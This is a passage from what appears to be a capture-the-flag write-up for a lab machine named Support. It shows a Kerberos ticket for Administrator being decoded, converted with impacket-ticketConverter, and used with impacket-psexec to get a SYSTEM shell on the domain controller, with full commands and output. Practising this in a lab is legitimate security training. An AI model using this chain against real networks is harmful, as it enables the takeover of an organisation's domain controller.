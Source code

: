 ```bash
      XXGGJMgJ4ba2wkLnMiViw/xYj2YH8gv8GFqPsYvoGg4rfMiLhIyWC7V9lNzNXs4e88tKeojKSiVPJ7+j
      f3FfLAlT0vaJ6HqS0Yv10fleP+xi9yv2h8lXsBNIUYLeB284CmwY8cQak/OedKYKBdYAG6dHw+i3iQMs
      TE0+7eqRnei9aTMPAtaevRctdQqp8Iq9A1GE5aiBxl04hTELEK00i8Rur3bq9HxvJL0zbsgzlBokQNgO
      yM+cT1Usv7vIfPM53fwiUYN3/8wepJqNL88BdXv3lEZZFf7rejz/aP7LTIKPBFMkVIqdnDaUMvhhBpNE
      UzxGk0QLa7Or1EoPkvfXFiuDwHQaiHuGVDdunaQoHGeQM+U5FtdSu/XOFV5e0LyYK5FFNJJhQXAbNMSA
      ISVwAebgNcCWAbegPNtqNhcddAymQLWd0BFnEfBdN4m11g76MMjfpa8j66j/lRwd6tPIUzU9/mUI6CtA
      3vJ8dSXgYja9kxRM9XjKHRrhQzCUGMJ7cVNnRXGkdY29evSiagGi2mQEJ6lnvm3tbHcZf7gP3UdZ7a7F
      EsB6ErSYGlvzO5GoI+/rOsMYcN8ouua8xWZYIVbwWY5kSBN+PFJcaoNgMaEdc46+mhNfSgPJwzIxwIRL
      gpIuq/vBSo034JgXeWpZO7JFbLmqmCPthsR5UPP0IiWuO+5bkaNKOwSfpxBDRn+bV/yAPx8ov8LbEppG
      k8HBbtK9tAkH9AEz/jPddNFCbCY49+/Cvxdkreh8XzaYQ8cFqQ++vqlPSFN47OZt3VMXDoCEdZ4TRgwb
      XR/vyokaTM8dtTcOVXh6c4O7WI9EzPLrDGXa0GE1UhP8img1XQ9rLRfwWUajX46mEB8Ra82Z96qoT1zd
      kg+MjKdBSG+Z8bMQQrZk28Y6BJnKwTpQR0DYP/lGvoyEMt5HW4BO1FY1rp+jgdkwgdagAwIBAKKBzgSB
      y32ByDCBxaCBwjCBvzCBvKAbMBmgAwIBEaESBBBV5h6lQ8YwlRlwCBiCxoo9oQ0bC1NVUFBPUlQuSFRC
      ohowGKADAgEKoREwDxsNQWRtaW5pc3RyYXRvcqMHAwUAQKUAAKURGA8yMDI1MDUyNDEyMjYyN1qmERgP
      MjAyNTA1MjQyMjI2MjdapxEYDzIwMjUwNTMxMTIyNjI3WqgNGwtTVVBQT1JULkhUQqkhMB+gAwIBAqEY
      MBYbBGNpZnMbDmRjLnN1cHBvcnQuaHRi
[+] Ticket successfully imported!
```
* Step 7 

(copy the base64 ticket.kirbi in a txt file on the attack machine and save it as ticket.kirbi.b64, then run the command ``` base64 -d ticket.kirbi.b64 > ticket.kirbi``` to decode to plaintext)

* Step 8 (use impacket-ticketCoverter to convert ```ticket.kirbi``` to ```ticket.ccache``` so it can be used by our linux tools)

```bash
impacket-ticketConverter ticket.kirbi ticket.ccache                                                       
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] converting kirbi to ccache...
[+] done
```
* Step 9 (define the ccache ticket that will be used for the kerberos tools)

```bash
export KRB5CCNAME=ticket.ccache
```

* Step 10 (own the domain controller with impacket-psexec)

```bash
impacket-psexec support.htb/administrator@dc.support.htb -k -no-pass
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on dc.support.htb.....
[*] Found writable share ADMIN$
[*] Uploading file zmKhZNkE.exe
[*] Opening SVCManager on dc.support.htb.....
[*] Creating service iVUj on dc.support.htb.....
[*] Starting service iVUj.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.859]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> hostname
dc

C:\Windows\system32> dir C:\Users\Administrator\Desktop 
 Volume in drive C has no label.
 Volume Serial Number is 955A-5CBB

 Directory of C:\Users\Administrator\Desktop
```